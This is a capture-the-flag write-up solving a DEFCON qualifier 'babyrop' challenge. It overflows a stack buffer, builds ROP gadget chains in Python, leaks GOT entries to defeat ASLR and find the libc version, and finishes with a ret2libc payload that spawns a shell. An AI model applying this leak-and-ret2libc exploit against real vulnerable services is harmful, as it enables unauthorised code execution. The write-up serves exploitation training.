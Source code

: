 ### DEFCON Qualifiers - Babyrop

Yay, a 64-bit binary this time! Again, non-PIE code, compiled with no canaries and this time babyrop. I bet you already know how we are pwning this. JOP of course :P

Just like the warmup, this is a stack buffer overflow, which allows us to hijack RIP.

They were even nice enough to name the symbol **vuln**. :)

```assembly
public vuln
vuln proc near

s= byte ptr -20h

; __unwind {
push    rbp
mov     rbp, rsp
sub     rsp, 20h
mov     rdx, cs:stdin@@GLIBC_2_2_5 ; stream
lea     rax, [rbp+s]
mov     esi, 100h       ; n
mov     rdi, rax        ; s
call    _fgets
nop
leave
retn
; } // starts at 400606
vuln endp
```

Now, how do we attack this? First up, let's gather a few interesting gadgets:

```bash
babyrop ROPgadget --binary babyrop
'Gadgets information
============================================================
0x0000000000400562 : adc byte ptr [rax], ah ; jmp rax
0x0000000000400561 : adc byte ptr [rax], spl ; jmp rax
0x000000000040055e : adc dword ptr [rbp - 0x41], ebx ; adc byte ptr [rax], spl ; 

**snip**

0x00000000004004c3 : test rax, rax ; je 0x4004cf ; call rax
0x00000000004005f5 : test rax, rax ; je 0x4005f4 ; push rbp ; mov rbp, rsp ; call rax
0x00000000004004e2 : xor cl, byte ptr [rbx] ; and byte ptr [rax], al ; push 0 ; jmp 0x4004d9
0x00000000004004bf : xor eax, 0x4800200b ; test eax, eax ; je 0x4004d3 ; call rax
```

Well, I guess there's a few stuff... Next up, I built python wrappers for a few of them I though were going to come in handy.

```python
# 0x00000000004006eb : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
def set_rbp_r12_r13_r14_r15(rbp, r12, r13, r14, r15):
    return p64(0x4006eb) + p64(rbp) + p64(r12) + p64(r13) + p64(r14) + p64(r15)

# 0x00000000004006ed : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
def set_rsp_r13_r14_15(rsp, r13, r14, r15):
    return p64(0x4006ed) + p64(rsp) + p64(r13) + p64(r14) + p64(r15)

# 0x00000000004006f1 : pop rsi ; pop r15 ; ret
def set_rsi_r15(rsi, r15):
    return p64(0x4006f1) + p64(rsi) + p64(r15)

# 04006f3 : pop rdi ; ret
def set_rdi(rdi):
    return p64(0x4006f3) + p64(rdi) 
```

The next big thing was leaking stuff. It just so happens that the program *printf()*s something to us just before calling the read input function, so I constructed a nice leak primitive out of that to leak GOT entries.

```python
LEAK_PRIM = 0x400675

def leak_libc_func(got_entry, byte_num):
    first_stage = 'A'*32 + rbp + set_rdi(got_entry) + p64(LEAK_PRIM)

    p.sendline(first_stage)

    leak = p.recv(byte_num) + "\00" * (8 - byte_num)
    leak = u64(leak)
    return leak
```

Next, what to leak? The target, beyond defeating ASLR of course, was to identify the remote libc version, so I leaked whatever I could.

```python
FGETS_LEAK = leak_libc_func(FGETS_GOT, 6)
SETVBUF_LEAK = leak_libc_func(SETVBUF_GOT, 6)
STDOUT_LEAK = leak_libc_func(STDOUT_BSS, 6)
STDIN_LEAK = leak_libc_func(STDIN_BSS, 6)
```

Voila! The remote libc version was libc6_2.31-0ubuntu9_amd64, so I could now calculate offsets to the base address of libc as well as system, a "/bin/sh" string, basically whatever I needed.

However, while locally everything worked as expected, the remote target refused to hand me the shell. I got a bit paranoid, and started leaking bytes looking for an ELF header at libc base on the remote target and then got more paranoid and started leaking a bunch of memory to undestand where I am, but nothing seemed to work.

```python
# Leak /bin/sh@libc for sanity.
second_stage = 'A'*32 + rbp + set_rdi(LIBC_BASE + BINSH_OFFSET) + p64(LIBC_BASE + PUTS_OFFSET)

# Leak libc for sanity.
second_stage = 'A'*32 + rbp + set_rdi(LIBC_BASE) + p64(LIBC_BASE + PUTS_OFFSET)
```

Then I finally figured it out. For **various** reasons, the 64-bit ABI requires the stack to be 16-bit aligned, which I evidently broke. Adding an extra unnecessary ROP gadget for padding fixed the issue.

```python
second_stage = 'A'*32 + rbp + set_rdi(LIBC_BASE + BINSH_OFFSET) + p64(RET_GADGET) + p64(LIBC_BASE + SYSTEM_OFFSET) + p64(LEAK_PRIM)

p.sendline(second_stage)
p.interactive()

# Shell! :)
```
